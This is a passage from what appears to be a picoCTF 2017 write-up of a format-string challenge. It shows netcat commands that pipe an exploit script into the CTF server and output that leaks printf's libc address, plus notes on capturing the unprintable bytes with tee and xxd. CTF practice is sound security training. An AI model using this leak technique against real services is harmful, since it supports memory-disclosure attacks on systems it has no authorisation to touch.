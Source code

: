 This script's output was piped in to do all of the aforementioned steps as follows.


```
$ (python input.py; cat) | nc shell2017.picoctf.com 45115
...
Config action: Exit message set!
,,,▒<̈,<̈,̈,▒,,Config action: Command unrecognized.
You can:
...
```

Despite our efforts, the address of ```printf()``` appears to be a bunch of gibberish instead of a valid libc address when converted to hex values in [rapid tables](http://www.rapidtables.com/convert/number/ascii-to-hex.htm).

```
▒<̈
2592 3c 308
```

The reason for this is that its address contains some unprintable characters as well as some null bytes that will not be printed by ```%s```. We can solve this by tee'ing that output to a file and piping its contents into xxd, and tee'ing it to another file that will contain the hex values of these characters in a nicer format. This is done like so. Note that you will need 2 terminal windows to pull off this hack.

In terminal 1:

```
$ (python input.py; cat) | nc shell2017.picoctf.com | out.txt
/bin/sh: 3: out.txt: not found
no port[s] to connect to
^C$ (python input.py; cat) | nc shell2017.picoctf.com 45115 | out.txt
/bin/sh: 4: out.txt: not found
^C$ (python input.py; cat) | nc shell2017.picoctf.com 45115 | tee out.txt
Config action: Command unrecognized.
You can:
    login <login-message>    set the login message
    exit <exit-message>      set the exit message
    prompt <prompt>          set the command prompt
Config action: Exit message set!
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      a9e3323Config action: Command unrecognized.
```
